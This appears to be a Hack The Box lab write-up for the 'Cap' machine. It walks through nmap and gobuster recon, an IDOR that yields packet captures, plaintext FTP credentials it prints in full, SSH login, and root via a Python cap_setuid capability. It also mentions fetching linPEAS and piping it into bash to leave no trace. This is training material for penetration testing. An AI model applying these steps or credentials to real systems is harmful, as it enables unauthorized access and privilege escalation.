








Cap is an easy Linux challenge on HTB. The name of the machine is a nice hint guiding the way to solve this challenge. First, it leads to an IDOR or insecure direct object reference that gives access to a PCAP. This PCAP contains unencrypted traffic from another user connecting and logging in over FTP. These credentials then give access FTP but also allow logging in as this user. Once on the box, a setuid capability is granted to the Python binary, making it easy to spawn a new shell as the root user.

## Recon

An `nmap` scan reveals the following open ports FTP (21), SSH (22) and HTTP (80):

```sh
$ nmap -sC -sV -v -o nmap.txt 10.10.10.245

# Nmap 7.91 scan initiated Mon Aug 23 20:58:18 2021 as: nmap -sC -sV -v -o nmap.txt 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.025s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Mon, 23 Aug 2021 18:58:22 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Mon, 23 Aug 2021 18:58:16 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Mon, 23 Aug 2021 18:58:16 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, OPTIONS, HEAD
|     Content-Length: 0
|   RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
| http-methods:
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: gunicorn
|_http-title: Security Dashboard
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.91%I=7%D=8/23%Time=6123EFD1%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,105F,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20
SF:Mon,\x2023\x20Aug\x202021\x2018:58:16\x20GMT\r\nConnection:\x20close\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20193
SF:86\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">\
SF:n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x2
SF:0<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\
SF:x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta\
SF:x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=
SF:1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"image
SF:/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20<
SF:link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\">
SF:\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/fon
SF:t-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20
SF:href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel=
SF:\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\.
SF:css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/c
SF:ss/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOption
SF:s,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Mon,\x2
SF:023\x20Aug\x202021\x2018:58:16\x20GMT\r\nConnection:\x20close\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20OPTIONS,\x2
SF:0HEAD\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20text
SF:/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x20
SF:\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>\
SF:n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Invali
SF:d\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;RTSP
SF:/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,189
SF:,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20M
SF:on,\x2023\x20Aug\x202021\x2018:58:22\x20GMT\r\nConnection:\x20close\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232\
SF:r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20
SF:Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>
SF:\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20ser
SF:ver\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20ch
SF:eck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 23 21:00:27 2021 -- 1 IP address (1 host up) scanned in 129.65 seconds
```

It doesn't seem that anonymous access is available on FTP. Besides that `nmap` shows that gunicorn is running behind port 80, hinting that this is most likely a python application. Opening the website in Firefox reveals a dashboard of some sorts:



At this point I kick of a gobuster scan `gobuster dir -u http://10.10.10.245 -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -o ./gobuster.txt` to see if there are any hidden paths to exploit. While that is running in the background I start doing some manual discovery. The navigation on the left gives access to a couple of pages

The Security Snapshot menu goes to `/capture` but eventually redirects to `/data/3`. It seems to be a network capturing tool showing the amount of TCP, IP and UDP for some networks. Clicking the download link goes to `/download/3` and will download a pcap file. Opening up the pcap file in Wireshark shows that the file all contains network traffic from my IP and the target machine. It's the plain http traffic that the gobuster created. This reveals that this tool is capturing all network traffic from the public networking interface of the target machine.



Opening the IP Config `/ip` page seems to be returning the result from the `ipconfig` command. Thinking about this for a second, it's probably safe to assume that the previous link is executing `tcpdump` on the `eth0` interface.



The last page Network Status goes to `/netstat` and just returns the output of executing `netstat`.



The result of the `gobuster` scan doesn't reveal anything new or hidden. All paths uncovered via the scan we already found doing manual recon:

```sh
$ cat gobuster.txt

/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
/ip                   (Status: 200) [Size: 17366]
/capture              (Status: 302) [Size: 220] [--> http://10.10.10.245/data/4]
```

## Getting a shell as user

As far as the enumeration goes, we didn't discover all that much. We got a couple of pages that mostly return some static information. But the `/capture` page is a rather interesting one. Reloading the page a few times it starts redirecting to different pages over time. Initially, it redirected to `/data/3`, but after a few more gobuster scans and that id started going. All gobuster information start from id 3, this makes me wonder what pcap files are available before id 3. This is what they call an IDOR insecure direct object reference. It is a vulnerability that allows an attacker to manipulate a URL or a parameter to a request to access objects they aren't supposed to access.

With `curl` it's possible to quickly download all available pcap files:

```sh
$ seq 0  10 | xargs -I% bash -c "curl -L http://10.10.10.245/download/% -s -o %.pcap; echo 'Downloaded %.pcap'"

Downloaded 0.pcap
Downloaded 1.pcap
Downloaded 2.pcap
Downloaded 3.pcap
Downloaded 4.pcap
Downloaded 5.pcap
Downloaded 6.pcap
Downloaded 7.pcap
Downloaded 8.pcap
Downloaded 9.pcap
Downloaded 10.pcap
```

Digging through the first pcap file `0.pcap` reveals credentials for a user nathan in a plain text FTP session:



Using the username `nathan` and password `Buck3tH4TF0RM3!` gives access to the FTP server and contains the `user.txt` file:

```sh
$ ftp 10.10.10.245

Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:nickvd): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Aug 23 18:56 user.txt
226 Directory send OK.
```

The same username and password also gives access to login via SSH:

```sh
 downloads ssh nathan@10.10.10.245
nathan@10.10.10.245's password:

Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Aug 23 21:10:32 UTC 2021

  System load:  0.0               Processes:             222
  Usage of /:   36.6% of 8.73GB   Users logged in:       0
  Memory usage: 21%               IPv4 address for eth0: 10.10.10.245
  Swap usage:   0%

  => There is 1 zombie process.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$
```

## Escalating to root

The home directory is rather empty, but as it turns out it was also possible to just access the user.txt just by logging in via SSH:

```sh
nathan@cap:~$ ls -al
total 28
drwxr-xr-x 3 nathan nathan 4096 May 27 09:16 .
drwxr-xr-x 3 root   root   4096 May 23 19:17 ..
lrwxrwxrwx 1 root   root      9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r-- 1 nathan nathan  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 nathan nathan 3771 Feb 25  2020 .bashrc
drwx------ 2 nathan nathan 4096 May 23 19:17 .cache
-rw-r--r-- 1 nathan nathan  807 Feb 25  2020 .profile
lrwxrwxrwx 1 root   root      9 May 27 09:16 .viminfo -> /dev/null
-r-------- 1 nathan nathan   33 Oct 11 19:07 user.txt

nathan@cap:~$ cat user.txt
97a9abfb6e11085aa87eac12895fdc70
```

A tool like [linPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/linpeas.sh) will give a better insight into what vulnerabilities are available on the system. I personally prefer download the script to my local machine and make it available via a python webserver:



Downloading and immediately piping into bash make sure we are not leaving a trace on the system while running recon. The result reveals that python has the set_uid capability set. Capabilities are a Linux feature introduced a while back to break down the permissions of the root user. So instead giving program full root privileges you can give it a few capabilites.



The capabilites set on Python binary are `cap_setuid` and `cap_net_bind_service+eip`. Opening up the man page for these capabilites with `man capabilities` reveals what extra features it gives to the Python binary:

```sh
$ man capabilities

...

CAP_SETUID
        * Make arbitrary manipulations of process UIDs (setuid(2), setreuid(2), setresuid(2), setfsuid(2));
        * forge UID when passing socket credentials via UNIX domain sockets;
        * write a user ID mapping in a user namespace (see user_namespaces(7)).

...

CAP_NET_BIND_SERVICE
        Bind a socket to Internet domain privileged ports (port numbers less than 1024).

...
```

We can see that the `cap_net_bind_service` can be used to allow a process to bind to privileged ports, which ports less than 1024. This is a pretty useful on but also we can't really exploit. The `cap_setuid` on the other hand allows changing the UID when forking of into a new process. We can easily abuse this capability by having python start bash as the root user;



Running that command gives access the `root` user and the `root.txt` flag.
